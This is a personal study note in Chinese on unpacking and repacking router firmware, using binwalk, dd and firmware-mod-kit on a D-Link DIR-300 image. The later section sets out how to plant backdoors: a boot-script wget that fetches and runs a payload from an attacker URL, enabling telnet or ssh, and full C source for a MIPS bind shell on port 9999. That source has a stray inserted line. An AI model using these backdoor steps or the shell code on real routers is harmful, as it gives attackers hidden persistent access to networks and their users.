







# 路由器固件解包和打包个人学习                                                                               

**固件是控制IOT设备的核心，这也是在分析IOT设备其他组件时希望从固件开始分析的原因。**

## 路由器固件解包

假如通过各种方法已经拿到了某个路由器\*.bin或\*.trx格式的固件，下一步要做的就是尝试提取出其中的文件系统，然后对文件系统进行分析，再或者基于固件仿真的动态分析。

### 自动梭哈式--binwalk

其实binwalk不是一个简简单单的自动解包工具，它可以自动化地对固件完成一些分析，比较（例如从新旧版本比较其中的异同从而发现漏洞）。而且因为是开源的工具，还可以在binwalk中手工添加更多的特征，从而实现对其他文件系统的识别。但是目前binwalk仅支持在LINUX系统上运行。

执行如下命令，对固件进行扫描

```
binwalk dir300_v1.05_a319.bin
```



可以看到有一段LZMA压缩数据和识别出的文件系统为Squashfs等等

执行如下命令，提取探测到的文件及文件系统

```
binwalk -e dir300_v1.05_a319.bin
```



另外，-M选项会根据magic签名扫描结果进行递归提取

### 手动提取

固件是一个二进制文件压缩包，而文件系统只是其中的一个组件，存储在二进制文件的特定偏移地址中，且具有一定的尺寸。然而，在不知道固件的任何信息时，为了找到这些信息，可以使用hexdump和grep等工具搜索特征信息和关注内容。

**查看文件类型**

file命令通过定义的magic签名可以识别各种格式，包括常用的Linux/Windows可执行文件、DOC、PDF及各种压缩格式等。

```
file dir300_v1.05_a319.bin
```



上例中并没有查询到任何类型的匹配，但这并不代表该固件就是没有接触过的文件格式，原因在于file命令是从给定文件的首字节开始的，会按照既定格式进行模式匹配

**手动判断文件类型**

采用下面的方法进一步分析

```
1、”stings|grep”检索文件系统magic签名头。

2、”hexdump|grep”检索magic签名偏移。

3、”dd|file”确定magic签名偏移处的文件类型。
```

magic签名头：文件系统magic签名头是指一个文件系统中包含的一串可识别字符，有了这串字符，表明该文件可能包含某个文件系统。当然如果要确定是否包含某个文件系统还需要其他条件证明，就是第2、3两步。

常见的文件系统头部特征如下：

cramfs文件头部特征字符为”0x28cd3d45”

squashfs文件系统头部特征较多，有sqsh、hsqs、qshs、shsq、hsqt、tqsh、sqlz

已知上例中使用的固件文件系统类型为squashfs

```
strings dir300_v1.05_a319.bin | grep -i 'sqsh'
hexdump -C dir300_v1.05_a319.bin | grep -n 'sqsh'
```



```
dd if=dir300_v1.05_a319.bin bs=1 count=100 skip=524416 of=squash
file squash
```

上一步可以看到，在偏移0x080080(十六进制524416）出发现了"hsqs"。然后用dd命令复制从0x080080开始的100字节数据，之所以要复制100字节的数据，是因为squashfs文件系统的头部校验不会超过100字节。然后使用file命令查看文件类型，为squashfs大端序模式



**这里我使用unsquashfs命令没有成功提取出来文件系统，还在根据报错信息查找资料。**

### **特殊情况**（如加密）

然而有的厂商为了安全或者说是技术保密，会对固件进行一定的加密和压缩处理，

[安全客文章]: https://www.anquanke.com/post/id/198311

介绍了三种厂商加密固件的场景，并对D-Link DIR-882进行了实际的分析，一般思路在读了文章之后可以get到，具体应用还需要随机应变，文章总结里的一句话：消费级路由器通常运算能力有限，在这种限制下，设备通常无法使用较慢但难以破解的非对称加密算法（如RSA）。我觉得不一定，而且有些大厂随着技术日渐成熟，为了安全着想，可能越来越难的加密算法会应用到固件的加密中。

### 特定工具

像之前在搜索思科固件尝试解包的过程中，就不是那么顺利，而针对某些产品型号的固件，有大佬开发出了相应的工具如asafw（思科ASA防火墙固件）

针对小米华为等路由器固件解包打包网上一些论坛也有工具

另外还有一些很多人用的通用型自动化解包工具，FACT（Firmware Analysis and Comparison Tool）、FMK（其实解包也是基于binwalk和其他），BANG( Binary Analysis Next Generation )等等。


## 路由器固件重新打包

### 常用的重构工具FMK（firmware-mod-kit）

在工具目录下输入如下命令，对固件进行解包：

```
./extract-firmware.sh dir300_v1.05_a319.bin
```

解包完成后，会在当前目录下生成fmk文件夹，看到生成了rootfs、image_part 和 logs 等文件夹，一般植入后门需要我们改造的是rootfs里边的东西




修改完期望的东西之后，需要重新构建固件，使用如下命令

```
./build-firmware.sh fmk/ -nopad -min
```

生成的 new-firmware.bin 文件即为新的固件



### 需要注意什么（可能会发生的意外）

**与原固件的差别**

在修改完期望内容之后重新构建固件的时候，有时候并不会成功，原因在于在重新打包的时候，与原固件的大小不一致，导致打包失败，此时就需要修改大小，这里在之前看一篇文章时（http://cn-sec.com/archives/92207.html），大佬提供的思路是将文件系统里的图片文件缩小，从而缩小重打包后的固件大小，需要好好研究一下代码思路和修改原理

**重打包后的固件不能通过路由器的校验**

有些路由器会校验固件尾部的字节，确定是否为“官方”固件，这时候就需要修改对应的字节值，从而达成通过校验。这里就需要进行逆向分析，合适地修改对应字节值。

## 植入后门的思路有哪些

### **思路一：**

寻找在启动过程中自动调用的脚本，在其中添加我们要执行的命令。在文件系统中找到一个每次重启路由器时都会执行的shell脚本，我们以一个符合条件的脚本，在该脚本中添加指令，让路由器重启时，从我们指定的url下载后门到tmp目录并执行，如wget命令。

### **思路二：**

在脚本/usr/sbin/gencert.sh中打开路由器的ssh或者telnet，这样在路由器重启后就可以直接通过ssh或者telnet连接路由器。

### **思路三：**

在文件系统中放入我们编译好的后门程序，在/usr/sbin/gencert.sh中执行后门程序，这样在路由器重启时就会启动后门。


关于思路三，需要找对应的后门源码，然后在特定的环境下进行编译

所谓对应，就是看设备的固件是基于什么架构的，可以用readelf等命令查看，如下是MIPS小端架构的一段后门源码

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define SERVER_PORT  9999
 /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith)
  * Bind Shell using Fork for my TP-Link mr3020 router running busybox
  * Arch : MIPS
  * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc
  */
int main() {
   int serverfd, clientfd, server_pid, i = 0;
   char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n";
   char *args[] = { "/bin/busybox", "sh", (char *) 0 };
   Analyzing and Exploiting Firmware
   struct sockaddr_in server, client;
   socklen_t len;

   server.sin_family = AF_INET;
   server.sin_port = htons(SERVER_PORT);
   server.sin_addr.s_addr = INADDR_ANY;

   serverfd = socket(AF_INET, SOCK_STREAM, 0);
   bind(serverfd, (struct sockaddr *)&server, sizeof(server));
   listen(serverfd, 1);

    while (1) {
         len = sizeof(struct sockaddr);
         clientfd = accept(serverfd, (struct sockaddr *)&client, &len);
        server_pid = fork();
        if (server_pid) {
         write(clientfd, banner,  strlen(banner));
           for(; i <3 /*u*/; i++) dup2(clientfd, i);
           execve("/bin/busybox", args, (char *) 0);
           close(clientfd);
         } close(clientfd);
    } return 0;
}

```

需要在对应Buildroot交叉编译环境下进行编译，这里就需要MIPSEL架构的交叉编译环境


## 接下来需要学习的

在上述的小点中，还有很多的细节需要掌握，基础需要夯实，比如squashfs类型的文件系统的操作，重新打包时需要注意的问题和处理办法等等，那么接下来就是多找一些案例固件，像学web时打靶机的时候一样，总结思路和经验，查漏补缺，尝试不同品牌不同架构的路由器固件。